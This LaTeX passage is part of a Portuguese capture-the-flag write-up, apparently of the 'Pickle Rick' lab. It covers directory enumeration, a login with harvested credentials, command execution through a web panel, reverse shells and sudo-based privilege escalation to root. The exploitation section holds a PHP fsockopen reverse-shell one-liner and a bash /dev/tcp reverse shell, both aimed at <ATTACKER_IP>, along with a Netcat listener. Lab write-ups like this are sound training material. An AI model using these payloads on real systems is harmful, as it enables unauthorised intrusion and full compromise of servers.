  
\includegraphics[width=0.95\linewidth]{gobuster_with_extensions.png}
  \caption{Gobuster com \texttt{-x php,txt,html} revelando \texttt{login.php},
  \texttt{portal.php} e \texttt{robots.txt}.}
  \label{fig:gobuster}
\end{figure}

O arquivo \texttt{/robots.txt} contém uma única linha que, testada no painel de
\emph{login}, revela-se a \textbf{senha} do usuário \texttt{R1ckRul3s}
(mascarada como \texttt{<PASSWORD>} conforme a metodologia).

\begin{becosemsaida}
\begin{itemize}[leftmargin=1.4em,itemsep=2pt,topsep=2pt]
  \item Baixei as imagens de \texttt{/assets} e inspecionei \emph{metadados} e
        possível \emph{esteganografia} --- nenhuma informação útil; o diretório
        contém apenas os recursos estáticos do tema.
  \item Executei o Gobuster com a \emph{wordlist} \emph{média}
        (\texttt{directory-list-2.3-medium}): demora elevada e nenhum achado
        além dos já conhecidos --- muito tempo de espera desperdiçado.
  \item Executei o Gobuster com \texttt{common.txt} \textbf{sem} as \emph{flags}
        de extensão: como os alvos são arquivos \texttt{.php}, nada de novo
        apareceu, levando à conclusão equivocada de que não havia mais nada.
  \item Somente ao reexecutar com \texttt{common.txt} \textbf{mais}
        \texttt{-x php,txt,html} os arquivos \texttt{.php} surgiram,
        destravando o progresso.
  \item Tentei autenticar via SSH com senha (\cmd{ssh -v R1ckRul3s@<TARGET_IP>}):
        o servidor aceita apenas chave pública, descartando o SSH como vetor
        inicial.
\end{itemize}
\end{becosemsaida}

%============================= 2.5 EXPLORACAO ===================================
\section{Exploração}

\subsection{Identificação da vulnerabilidade}
Com o usuário obtido no código-fonte (\texttt{R1ckRul3s}) e a senha retirada de
\texttt{/robots.txt}, a autenticação em \texttt{/login.php} é bem-sucedida.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{login.png}
  \caption{Autenticação no \texttt{/login.php} com as credenciais coletadas
  (usuário \texttt{R1ckRul3s}).}
  \label{fig:login}
\end{figure}

Após o \emph{login}, a página \texttt{/portal.php} exibe um \textbf{Command
Panel}: um campo de texto ``\emph{Commands}'' com um botão ``\emph{Execute}''
que executa comandos do sistema operacional no servidor e imprime a saída de
volta ao navegador. Trata-se de \textbf{execução remota de comandos (RCE) por
\emph{design}}, sem qualquer restrição de \emph{allowlist} ou isolamento.

\subsection{Execução de comandos e primeiro ingrediente}
No painel, a listagem do diretório atual com \cmd{ls -latr} revela um arquivo de
nome sugestivo, \texttt{Sup3rS3cretPickl3Ingred.txt}, cujo conteúdo é o
\textbf{primeiro ingrediente}.

\begin{lstlisting}[language=bash,caption={Enumeração e leitura do primeiro ingrediente pelo painel.}]
ls -latr
# ... Sup3rS3cretPickl3Ingred.txt aparece na listagem ...
cat Sup3rS3cretPickl3Ingred.txt   # -> <FLAG>
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{portal_with_cli.png}
  \caption{\emph{Command Panel} (\texttt{portal.php}) executando \texttt{ls
  -latr} e revelando o arquivo do primeiro ingrediente
  (\texttt{Sup3rS3cretPickl3Ingred.txt}).}
  \label{fig:portal}
\end{figure}

\subsection{\emph{Reverse shell}}
O painel web é desconfortável para navegar o sistema (cada comando é isolado).
Para obter uma sessão interativa, coloca-se um \emph{listener} Netcat à escuta e
dispara-se um \emph{reverse shell} a partir do próprio painel. Como a aplicação
é servida por PHP, o \emph{one-liner} PHP com \texttt{fsockopen} é a via natural.

\begin{lstlisting}[language=bash,caption={Listener Netcat e payload PHP disparado no painel.}]
# Na maquina atacante:
nc -lvnp 4444

# No campo "Commands" do painel (portal.php):
php -r '$sock=fsockopen("<ATTACKER_IP>",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
\end{lstlisting}

\begin{becosemsaida}
\begin{itemize}[leftmargin=1.4em,itemsep=2pt,topsep=2pt]
  \item Comecei com um \emph{reverse shell} em \textbf{bash}
        (\texttt{bash -i >\& /dev/tcp/<ATTACKER\_IP>/4444 0>\&1}) pelo painel ---
        não retornou conexão (o \emph{shell} do formulário provavelmente não é
        \texttt{bash}, ou o \texttt{/dev/tcp} não estava disponível no contexto).
  \item Como o servidor claramente interpreta \textbf{PHP}, troquei para o
        \emph{one-liner} PHP com \texttt{fsockopen}, que funcionou de imediato.
\end{itemize}
\end{becosemsaida}

\subsection{Confirmação de acesso e segundo ingrediente}
A conexão é recebida e obtém-se um \emph{shell} como \texttt{www-data},
confirmando a execução remota de código. Navegando até \texttt{/home/rick},
encontra-se o arquivo \texttt{second ingredients}, cujo conteúdo é o
\textbf{segundo ingrediente}.

\begin{lstlisting}[style=output,caption={Shell recebido: contexto www-data.}]
listening on [any] 4444 ...
connect to [<ATTACKER_IP>] from (UNKNOWN) [<TARGET_IP>] 39654
$ whoami
www-data
\end{lstlisting}

\begin{lstlisting}[language=bash,caption={Leitura do segundo ingrediente.}]
cd /home/rick
ls -latr
cat 'second ingredients'   # -> <FLAG>
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{second_ingridient_reverse_shell.png}
  \caption{\emph{Reverse shell} recebido via Netcat como \texttt{www-data} e
  leitura do segundo ingrediente em \texttt{/home/rick}.}
  \label{fig:revshell}
\end{figure}

%======================== 2.6 ESCALADA DE PRIVILEGIOS ==========================
\section{Escalada de Privilégios}

\subsection{Enumeração local}
Como \texttt{www-data}, a primeira verificação é a política de \texttt{sudo} do
usuário atual com \cmd{sudo -l}. O resultado é uma configuração
\textbf{catastrófica}: o usuário pode executar \emph{qualquer} comando como
\texttt{root} \textbf{sem senha}.

\begin{lstlisting}[style=output,caption={Politica de sudo permissiva para www-data.}]
Matching Defaults entries for www-data on <TARGET_HOST>:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:...

User www-data may run the following commands on <TARGET_HOST>:
    (ALL) NOPASSWD: ALL
\end{lstlisting}

\begin{becosemsaida}
\begin{itemize}[leftmargin=1.4em,itemsep=2pt,topsep=2pt]
  \item Por reflexo do desafio anterior (\emph{RootMe}), comecei procurando
        binários \emph{SUID} com \cmd{find / -perm -4000 -type f 2>/dev/null} ---
        mas logo lembrei de checar primeiro o \cmd{sudo -l}, que revelou o
        caminho trivial.
  \item Também tentei \cmd{su -} para \texttt{root} (que pede senha): sem a senha
        do \texttt{root}, cancelei com \emph{Ctrl-C}; a via correta era
        \cmd{sudo su -}.
\end{itemize}
\end{becosemsaida}

\subsection{Obtenção de root e terceiro ingrediente}
Aproveitando a permissão \texttt{(ALL) NOPASSWD: ALL}, basta abrir um
\emph{shell} de \texttt{root} com \cmd{sudo su -}. O \cmd{whoami} retorna
\texttt{root}, comprovando o comprometimento total. O \textbf{terceiro
ingrediente} é lido em \texttt{/root/3rd.txt}.

\begin{lstlisting}[language=bash,caption={Escalada a root e leitura do terceiro ingrediente.}]
sudo su -
whoami            # -> root
cd /root
cat 3rd.txt       # -> <FLAG>
\end{lstlisting}

\begin{figure}[H]
  \centering
